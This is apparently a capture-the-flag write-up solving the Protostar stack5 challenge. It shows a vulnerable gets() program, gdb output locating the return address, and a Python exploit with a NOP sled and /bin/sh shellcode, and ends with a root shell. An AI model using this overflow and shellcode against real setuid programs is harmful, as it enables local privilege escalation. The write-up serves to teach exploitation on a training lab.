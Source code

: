 Our goal is to solve this explotation challenge <i> [Stack5](https://exploit.education/protostar/stack-five/)</i>


# Code to exploit 
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}


```
## Problem of code
This is a standard buffer overflow challenge. We will redirect code execution to stack and we will use a shellcode

We will execute the programm with gdb to have a view of the assembly code and memory.

```c
(gdb) disassemble main
Dump of assembler code for function main:
0x080483c4 <main+0>:	push   %ebp
0x080483c5 <main+1>:	mov    %esp,%ebp
0x080483c7 <main+3>:	and    $0xfffffff0,%esp
0x080483ca <main+6>:	sub    $0x50,%esp
0x080483cd <main+9>:	lea    0x10(%esp),%eax
0x080483d1 <main+13>:	mov    %eax,(%esp)
0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:	leave  
0x080483da <main+22>:	ret    
End of assembler dump.

```

We insert a break point before the return-instruction and then we print the stack 

We pass as programm input a huge string "AAAABBBBCCCC..." and then we see that the 
return address is overwritten with 0x54545454.


```c
(gdb) b * main+22
Breakpoint 1 at 0x80483da: file stack5/stack5.c, line 11.
(gdb) r < /home/user/tmp 
Starting program: /opt/protostar/bin/stack5 < /home/user/tmp

(gdb) x/10xw$esp
0xbffff6dc:	0x54545454	0x55555555	0x56565656	0x57575757
0xbffff6ec:	0x58585858	0x59595959	0x5a5a5a5a	0xb7ffef00
0xbffff6fc:	0x08048232	0x00000001



```


We know that the ASCII value 0x54 is letter T so our exploit string will be 
"AAAABBBBCCCC....SSSS"+ the address of our shell-code + the shell-code

We will put our shellcode 32 (random number) bytes after $esp and we will use a lot of NOPs
hoping we will hit one of the NOP

And then with this python code we will do the final explotation

```python
import struct

#This function generates a string like AAAABBBBCCCC so that we can find some information 
#when we overflow gets function. Characters like AAAABBBBCCCC have easy to recognise hex values

def create_overflow_string(size):
        string = ""
        for i in range(size):
                if (i <26):
                        string = string + str(chr(65+i))*4
        return string

RANDOM_STRING_OVERFLOW = False
#RANDOM_STRING_OVERFLOW = True


#Find stack information
if (RANDOM_STRING_OVERFLOW == True ):
        string = create_overflow_string(26)
        print(string)

#Actual exploit
else:
        string = create_overflow_string(26)

        string =  string.split("TTTT")[0]

        #EIP points to next word
        EIP = struct.pack("I",0xbffff6e0+32)
#       Copy shellcode from https://shell-storm.org/shellcode/files/shellcode-851.php
        code = "\x90"*100 +"\x31\xc9\xf7\xe9\x51\x04\x0b\xeb\x08\x5e\x87\xe6\x99\x87\xdc\xcd\x80\xe8\xf3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x2f\x73\x68"

        print (string+EIP+code)



```

https://unix.stackexchange.com/questions/297560/cat-into-stdin-then-pipe-into-program-keeps-forked-shell-open-why

Finally we run like this, we use cat to keep stdin open for bin sh

```
user@protostar:~$ cat <(python stack5.py) - | /opt/protostar/bin/stack5
ls -all
total 25
drwxr-xr-x 2 user user  140 Sep 29 03:52 .
drwxr-xr-x 6 root root   60 Oct 31  2012 ..
-rw-r--r-- 1 user user  220 Apr 10  2010 .bash_logout
-rw-r--r-- 1 user user 3184 Apr 10  2010 .bashrc
-rw-r--r-- 1 user user  675 Apr 10  2010 .profile
-rw-r--r-- 1 user user   19 Sep 29 03:45 cat
-rw-r--r-- 1 user user   37 Sep 29 03:20 formatexploit
-rw-r--r-- 1 user user 1047 Sep 29 03:52 stack5.py
-rw-r--r-- 1 user user  219 Sep 29 03:41 stack6
-rw-r--r-- 1 user user 1120 Sep 29 03:38 stack6.py
whoami
root


```

